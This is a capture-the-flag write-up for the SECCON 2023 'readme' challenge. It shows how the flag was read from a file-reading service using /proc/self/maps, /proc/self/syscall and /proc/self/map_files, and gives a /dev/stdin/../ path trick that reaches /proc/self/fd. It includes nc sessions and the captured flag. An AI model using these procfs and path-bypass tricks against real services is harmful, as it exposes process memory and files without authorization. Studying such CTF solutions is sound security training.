

# Lesson Learn
- /proc/self/syscall
- /proc/self/maps 
- /proc/self/map_files/(xxxx)-(xxxx)
- /proc/self/fd/

# Write Up
There are two options.
- solution 1 : open map_files
- solution 2 : bypass fd  

## solution 1 : open map_files
1. check a characteristics around /proc/self/syscall, /proc/self/maps  
    e.g.
    ```console
    $ nc readme-2023.seccon.games 2023
    path: /proc/self/maps
    b'
    55d0743de000-55d0743df000 r--p 00000000 fc:03 1058172  /usr/local/bin/python3.11
    55d0743df000-55d0743e0000 r-xp 00001000 fc:03 1058172  /usr/local/bin/python3.11
    55d0743e0000-55d0743e1000 r--p 00002000 fc:03 1058172
    '
    path: /proc/self/syscall
    b'0 0x5 0x55d07575e6b0 0x400 0x2 0x0 0x0 0x7ffe8e485d38 0x7f332976907d\n'
    ```
2. guess and calculate an offset using a local container.  
    edit server.py like this.  
    - before  
        ```py
        :
        :
            with open(os.path.realpath(path), "rb") as f:
                print(f.read(0x100))
        ```
    - after  
        ```py
        :
        :
            with open(os.path.realpath(path), "rb") as f:
                print(f.read())
        ```
    build a container on a local machine  
     

3. try that on a target machine
    ```console
    $ nc readme-2023.seccon.games 2023
    path: /proc/self/syscall
    b'0 0x7 0x55ff3af0b6b0 0x400 0x2 0x0 0x0 0x7ffdbcab9868 0x7f655358f07d\n'
    path: /proc/self/map_files/7f6553679000-7f655367a000
    b'SECCON{y3t_4n0th3r_pr0cf5_tr1ck:)}\n'
    ```

## solution 2 : bypass fd  
`/dev/stdin` --> `/proc/self/fd/0`  
`/dev/stdin/../` --> `/proc/self/fd`  
`/dev/stdin/../6` --> `/proc/self/fd/6`
